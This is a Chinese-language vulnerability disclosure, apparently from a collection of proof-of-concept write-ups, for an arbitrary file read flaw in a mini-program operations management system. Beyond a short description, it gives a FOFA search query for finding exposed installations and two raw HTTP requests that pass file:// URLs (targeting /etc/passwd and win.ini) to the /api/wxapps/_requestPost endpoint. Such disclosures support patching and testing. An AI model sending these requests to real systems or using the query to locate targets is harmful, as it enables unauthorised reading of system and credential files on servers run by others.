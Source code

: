 **漏洞名称**

万能小程序运营管理系统任意文件读取漏洞

**漏洞影响**

万能小程序运营管理系统

**漏洞描述**

万能小程序运营管理系统是一款功能强大的综合性平台，专为开发者和运营人员打造，旨在简化和提升小程序的管理与推广。该系统集成了丰富的功能模块，覆盖了小程序从开发、部署到运营管理的完整流程。通过提供多样化的工具和便捷的操作，用户可以轻松创建、管理和优化小程序。系统支持多平台部署，兼容微信、支付宝、百度、QQ等多种小程序平台，满足各类用户的多样需求。该系统/api/wxapps/_requestPost接口处存在任意文件读取漏洞，容易造成敏感信息泄露，请及时修复。

**FOFA搜索语句**

```
body="/com/css/head_foot.css" || body="/com/css/iconfont"
```

**漏洞复现**

LinuX poc

```
GET /api/wxapps/_requestPost?data=1&url=file:///etc/passwd HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2486.0 Safari/537.36 Edge/13.10586
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

windows POC

```
GET /api/wxapps/_requestPost?data=1&url=file://C:\Windows\win.ini HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Ubuntu; Linux i686; rv:124.0) Gecko/20100101 Firefox/124.0
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

